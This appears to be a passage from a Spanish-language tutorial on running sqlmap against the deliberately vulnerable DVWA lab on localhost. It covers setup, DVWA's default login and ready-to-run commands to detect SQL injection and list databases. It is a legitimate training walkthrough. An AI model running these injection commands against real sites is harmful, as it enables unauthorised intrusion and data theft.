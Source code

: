 ```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --version
```

---

### ⚙️ Requisitos para probar

Puedes usar un entorno vulnerable como:

#### Opción 1: DVWA (Damn Vulnerable Web App)

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
docker compose up -d
```

- Accede a: `http://localhost`
- Usuario: `admin`
- Contraseña: `password`
- Cambia la seguridad a **Low**
- Ir a la sección: `SQL Injection`

---

### 🚀 Ejemplo Real: sqlmap contra DVWA

Supón que tienes la siguiente URL vulnerable:

```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit
```

Ahora, vamos a usar **sqlmap** para automatizar el proceso.

---

#### ✅ Paso 1: Detectar inyección

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxxx; security=low" --batch
```

🧠 Explicación:

- `-u` → URL del parámetro vulnerable
- `--cookie` → Pasamos cookies de sesión (necesario si hay login)
- `--batch` → Ejecuta sin pedir confirmación

---

#### ✅ Paso 2: Obtener la base de datos

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxxx; security=low" --dbs
```
